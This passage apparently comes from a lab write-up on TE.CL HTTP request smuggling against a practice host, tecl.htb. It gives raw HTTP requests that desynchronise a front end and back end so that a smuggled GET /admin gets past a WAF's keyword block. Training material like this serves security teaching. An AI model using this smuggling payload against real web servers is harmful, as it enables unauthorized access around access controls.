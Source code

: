 ![TECL2](/images/tecl_2.jpg)
- Thus, we successfully confirmed that the setup is vulnerable to a TE.CL request smuggling vulnerability since we influenced the second request with the first one.

### Exploitation
- WAF works by simply blocking all requests containing the keyword admin in the URL. We can bypass the WAF by sending the following two requests subsequently via a single TCP connection in a Burp Repeater tab group:
```http
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: tecl.htb


0

```
```http
GET /404 HTTP/1.1
Host: tecl.htb

```
- The response to the first request contains the expected 404 response:
![TECL3](/images/tecl_3.jpg)
- However, the second response is an HTTP 200 status code and contains the admin panel, so we successfully bypassed the WAF:
![TECL4](/images/fixed_tecl_4.jpg)

